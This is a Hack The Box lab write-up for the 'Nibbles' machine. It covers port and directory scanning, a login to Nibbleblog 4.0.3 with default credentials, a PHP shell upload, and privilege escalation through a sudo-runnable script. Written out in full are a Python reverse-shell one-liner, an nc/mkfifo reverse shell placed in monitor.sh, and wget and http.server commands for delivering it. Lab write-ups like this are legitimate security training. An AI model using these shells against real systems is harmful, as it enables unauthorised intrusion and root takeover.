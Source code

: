 ```yaml
---
title: Nibbles Hackthebox Writeup
date: 2020-12-27 09:00:00 +0800
categories: [Hackthebox, Retired]
tags: [linux,nibbleblog,nibbleblog v4.0.3,php]     # TAG names should always be lowercase
image: /assets/img/nibbles-hackthebox/nibbles-pic.png
subtitle: JHBDOcubeoveiubo
---
```



# Introduction@Nibbles:~$


Column | Details
------------ | -------------
Name | Nibbles
IP | 10.10.10.75
Points | 20
Os | Linux
Difficult | Easy
Creator | [mrb3n](https://www.hackthebox.eu/profile/2984)
Out on | 13th january 2018

# Summary:~$

* Discovering the new host and scanning for open ports.
* Found `/nibbleblog/` in **source code**, and then used `gobuster` for searching directories.
* Accessing `admin` page with *default* credentials as `admin:nibbles`.
* Got `User Shell` by uploading a PHP reverse shell.
* Escalated Privileges using `sudo -l` and then changed the content of a file which can be run as sudo.

# Starting:~$

## Nmap

Running nmap gave us that `Port 80` is open. Let's check port 80.

**Nmap Command**: `nmap -T4 -sV -Pn 10.10.10.7`

___
![](/assets/img/nibbles-hackthebox/port-80-2.png)

Let's check the `source code` of this page.

___
![](/assets/img/nibbles-hackthebox/checking-source-code-3.png)

Accessing `/nibbleblog/` We got this:

___
![](/assets/img/nibbles-hackthebox/checking-nibbleblog-website-4.png)

I ran `gobuster` on /nibbleblog/ for *directory searching*.

**Command**: *gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.75/nibbleblog/ -t 100*

___
![](/assets/img/nibbles-hackthebox/gobuster-6.png)

I got to know `Nibbleblog` version by checking `/nibbleblog/README` which is `v4.0.3`

___
![](/assets/img/nibbles-hackthebox/accessing-readme-7.png)

Accessing `/nibbleblog/admin`, I got an admin pannel for *Nibbleblog*

___
![](/assets/img/nibbles-hackthebox/admin-area-access-9.png)

Tried using the default credentials for **Nibbleblog** i.e. *Username*: `admin` and *Password*: `nibbles` and logged into the dashboard.

___
![](/assets/img/nibbles-hackthebox/nibbles-admin-dashboard-10.png)

I googled about `Nibbleblog version 4.0.3` and found this [blog](https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/)

___
![](/assets/img/nibbles-hackthebox/nibble-version-search-8.png)

Uploaded a single line [php shell](https://www.grobinson.me/single-line-php-script-to-gain-shell/) and accessing it as mentioned in the above `blog`.

___
![](/assets/img/nibbles-hackthebox/single-line-php-shell-11.png)

Now to get a `reverse shell`, I captured the request on *burp repeater* and sent my `python` payload using *URL encoding*.
[Python Payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

**Command**: *python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.X.X”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'*

___
![](/assets/img/nibbles-hackthebox/got-user-shell-12.png)

For `Privilege Escalation`, I used the command `sudo -l` to check what permissions do we have.

___
![](/assets/img/nibbles-hackthebox/sudo-l-14.png)

We can run `monitor.sh` as administrator, let's access **personalzip** using the `unzip` command. and then replace `monitor.sh` with our own malicious *monitor.sh* and get `Root`.

___
![](/assets/img/nibbles-hackthebox/unzip-15.png)

Replacing `monitor.sh` with our infected *monitor.sh*.

**monitor.sh**: *echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.X.X 8899 >/tmp/f"*

Transfering it via `wget command`.

**Wget Command**: wget http://10.10.X.X:8081/monitor.sh

**Hosting Command for monitor.sh**: *python3 -m http.server 8081*

___
![](/assets/nibbles-hackthebox/wget-commands-16.png)

Running `monitor.sh` as sudo and listeing on the specified port on `nc`. We got `Root`.

___
![](/assets/img/nibbles-hackthebox/got-root.png)
